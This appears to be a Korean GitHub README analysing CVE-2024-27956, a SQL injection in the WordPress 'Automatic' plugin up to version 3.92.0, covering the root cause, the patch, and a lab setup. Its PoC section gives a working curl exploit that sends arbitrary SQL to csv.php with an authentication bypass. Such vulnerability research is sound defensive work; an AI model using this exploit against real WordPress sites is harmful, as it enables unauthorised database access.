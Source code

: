 # CVE-2024-27956

## Index
* [📝 Analysis](#-analysis)
    * [1. 개요](#1-개요)
    * [2. 발생 원인](#2-발생-원인)
    * [3. 패치 확인](#3-패치-확인)
* [🔫 PoC](#-PoC)
    * [1. 환경 셋팅(Automatic 3.92.0 설치)](#1-환경-셋팅automatic-3920-설치)
    * [2. 익스플로잇](#2-익스플로잇)


## 📝 Analysis

### 1. 개요

`CVE-2024-27956` 은 WordPress의 `Automatic` 플러그인에서 발견된 SQL Injection 취약점으로, 버전 3.92.0 이하에서 영향을 받습니다.

`Automatic` 플러그인은 ChatGPT, 유튜브, 아마존, 트위터, 페이스북 등 여러 플랫폼과 통합되어, 해당 플랫폼의 콘텐츠를 자동으로 수집하고 게시할 수 있는 플러그인입니다. 

예를 들어, ChatGPT를 이용한 포스팅 자동화를 다음과 같이 등록할 수 있습니다.

![image-001](images/image-001.png)

### 2. 발생 원인

WordPress의 `Automatic` 플러그인을 이용하여 콘텐츠를 수집하거나 게시하는 기능을 이용할 경우 로그 기록이 다음과 같이 로그 페이지(`/wp-admin/edit.php?post_type=wp_automatic&page=gm_log`) 쌓이게 됩니다. 

![image-002](images/image-002.png)

또한, `Automatic` 버전 3.92.0 이하에서는 로그 페이지 하단에 존재하는 버튼(`Download CSV Report for shown results`)을 클릭하여 로그 기록을 CSV 파일로 받아올 수 있습니다.

![image-003](images/image-003.png)

해당 버튼의 HTML 요소를 살펴보면 아래와 같이 정의되어 있습니다.

![image-004](images/image-004.png)

즉, 폼 태그를 이용하여 URL `/wp-content/plugins/wp-automatic/inc/csv.php` 로 POST 요청을 수행하며, 요청 시 아래의 페이로드를 함께 요청하고 있습니다.

| name | value |
| :---: | :--- |
| `q` | `SELECT * FROM wp_automatic_log  ORDER BY id DESC  limit 100`  |
| `auth` | `$P$BdQ8h4D6PqpeGNA8xBFBeeVyqq3BQY/` |
| `integ` | `9de25adaed040a56ea97546e9352356a` |

이때, 요청 URL `/wp-content/plugins/wp-automatic/inc/csv.php` 에 정의된 코드를 살펴보면, 페이로드 `q`로 전달되는 SQL 질의문이 어떠한 필터링도 거치지 않고 데이터베이스에 직접 질의되는 것을 확인할 수 있습니다.

![image-005](images/image-005.png)

따라서, 로그 기록을 CSV 파일로 저장할 때 사용자(클라이언트)로부터 SQL 질의문을 직접 받아 처리하고 있습니다. 이 과정에서 해당 SQL 질의문에 대한 어떠한 필터링도 수행되지 않아 SQL Injection 취약점이 발생하게 됩니다.

### 3. 패치 확인

`Automatic` 플러그인은 유료 플러그인이라 패치된 버전(3.92.1 이후)에 대한 코드 변경 이력을 확인할 수 없습니다.

다만, 인터넷상에 공개된 버전(3.106.0)을 확인한 결과, 로그 페이지에서 로그 기록을 CSV 파일로 저장하는 버튼이 제거된 것을 확인할 수 있었습니다.

![image-006](images/image-006.png)

![image-007](images/image-007.png)

또한, SQL Injection 취약점이 발생한 URL 경로 `/wp-content/plugins/wp-automatic/inc/csv.php`의 해당 파일이 삭제된 것을 확인할 수 있었습니다.

## 🔫 PoC

### 1. 환경 셋팅(Automatic 3.92.0 설치)

`CVE-2024-27956` 의 PoC 환경 구성을 위해 아래의 명령을 입력합니다.

```bash
# 저장소 클론
$ git clone -b CVE-2024-27956 https://github.com/DoTTak/Research-WordPress.git CVE-2024-27956
```

이후 WordPress 관리 페이지의 플러그인 추가 페이지(`/wp-admin/plugin-install.php`)로 이동합니다.

![image-008](images/image-008.png)

그 다음 `파일 선택` 버튼을 클릭하여 조금 전 내려받은 저장소에 존재하는 압축 파일(`CVE-2024-27956/plugins/WP-Automatic-3.92.0.zip`)을 업로드합니다.

![image-009](images/image-009.png)

업로드가 완료되면 `지금 설치` 버튼을 클릭하여 플러그인을 설치합니다. 설치가 완료된 후 '플러그인 활성화' 버튼을 클릭하여 `Automatic` 플러그인을 활성화합니다.

![image-010](images/image-010.png)

![image-011](images/image-011.png)

플러그인이 정상적으로 설치 완료 됐으면 아래와 같이 좌측 사이드 메뉴에 `Automatic` 플러그인 메뉴가 등장합니다.

![image-012](images/image-012.png)

### 2. 익스플로잇

위 과정을 통해 `Automatic` 플러그인 설치를 완료하고 활성화 한 뒤, 아래의 명령어를 입력합니다.

> `WordPress URL 주소` 란에 자신의 WordPress 주소를 입력합니다.
> 

```bash
curl -X POST <WordPress URL 주소>/wp-content/plugins/wp-automatic/inc/csv.php \
  -d "q=SELECT 'CVE-2024-27956 Exploit' as action, @@VERSION as data, '2024-11-5 04:49:51' as date" \
  -d "auth=%00" \
  -d "integ=c66b4ac73975004d6b788d1ae833ea1e" # integ의 값은 q를 md5 해시한 값
```

위 명령어에서 페이로드 `q` 에 입력된 SQL 질의문은 아래와 같습니다.

![image-013](images/image-013.png)

따라서, 위 명령어를 입력할 경우 최종적으로 아래와 같이 SQL Injection 취약점이 발생되는 것을 확인할 수 있습니다.

![image-014](images/image-014.png)
